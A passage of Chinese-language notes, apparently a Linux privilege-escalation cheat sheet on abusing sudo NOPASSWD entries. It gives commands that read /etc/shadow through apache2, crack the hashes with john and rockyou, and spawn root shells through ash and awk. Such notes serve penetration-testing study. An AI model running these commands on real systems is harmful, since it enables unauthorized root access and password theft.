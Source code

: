 有

```
(root) NOPASSWD:/usr/bin/apache2
```

使用命令

```
sudo apache2 -f /etc/shadow
```

会报错，并带出shadow文件中的内容。

这是引号中的信息。将其复制粘贴下来。

![1711012200801](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711012200801.png)

因为到时候显示出来的时散列值需要破解。

```
sudo john xxx --wordlist=/usr/share/wordlists/rockyou.txt
```



##### 4,ash

看到

```
(root) NOPASSWD:/usr/bin/ash
```

执行

```
sudo ash
whoami
bash
```



##### 5,awk

```
(root) NOPASSWD:/usr/bin/awk
```

zx

```
sudo awk "BEGIN{system("/bin/bash")}"
```



##### 6,base64

```
(root) NOPASSWD:/usr/bin/base64
```

